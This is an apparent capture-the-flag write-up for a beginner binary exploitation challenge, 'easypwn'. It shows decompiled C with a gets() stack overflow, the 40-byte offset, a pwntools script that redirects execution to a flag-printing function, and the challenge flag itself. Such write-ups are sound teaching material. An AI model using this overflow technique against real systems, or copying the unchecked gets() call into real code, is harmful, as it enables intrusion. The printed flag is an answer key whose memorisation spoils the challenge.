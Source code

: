 # easypwn

author: surprior

flag: `EPT{S0meth1n6_2_ge7_u_5t4rt3d}`

## Solve

### Reversing
This challenge consisted of a main function which called a function called `hello`

```c
undefined8 main(void)

{
  ignore_me_init_buffering();
  hello();
  return 0;
}
```


The function `hello` prompts the user for a name, and prints it back out. The vulnerability is the use of gets.
```c
void hello(void)

{
  char local_28 [32];
  
  puts("Hello!");
  puts("What\'s your name? ");
  gets(local_28);
  printf("Goodbye, %s!\n",local_28);
  return;
}
```

We can therefore input a lot of chars to overflow the buffer and overwrite `rip`. We need somewhere to jump after overwriting `rip`. Luckily there exists a function called `winnner` that opens and prints `flag.txt`

```c

void winner(void)

{
  int __c;
  int iVar1;
  FILE *__stream;
  
  __stream = (FILE *)FUN_00401140("flag.txt",&DAT_00402008);
  if (__stream == (FILE *)0x0) {
    puts("Unable to open the file \'flag.txt\'");
  }
  else {
    puts("You are Winner! Flag:");
    while( true ) {
      __c = fgetc(__stream);
      iVar1 = feof(__stream);
      if (iVar1 != 0) break;
      putchar(__c);
    }
    putchar(10);
    fclose(__stream);
  }
  return;
}
```


### Creating the exploit

We send a lot of chars into the program and see it crash at the `ret` of the `hello` function
![](img1.png)

We can then find the offset, which in this case is 40.
![](img2.png)

The script will therefore look like this
```python
io = start()

payload = b"A"*40
payload += p64(exe.sym.winner)

io.recvuntil(b"What's your name? \n")
io.sendline(payload)

io.interactive()
```


By running this we get the flag!

![](img3.png)

The whole exploit script can be found here: [exploit.py](exploit.py)
